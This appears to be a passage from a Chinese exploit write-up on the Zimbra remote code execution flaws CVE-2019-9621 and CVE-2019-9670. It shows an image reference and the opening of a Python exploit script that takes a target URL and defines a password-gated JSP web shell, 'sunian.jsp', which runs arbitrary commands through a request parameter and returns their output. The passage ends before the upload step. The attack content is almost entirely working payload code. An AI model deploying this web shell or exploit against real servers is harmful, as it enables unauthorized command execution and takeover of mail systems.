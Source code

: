 ![4.png](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId38.png)

    #coding=utf8
    import requests
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    base_url=sys.argv[1]
    base_url=base_url.rstrip("/")
    #利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠

    filename = "sunian.jsp"
    fileContent = r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>'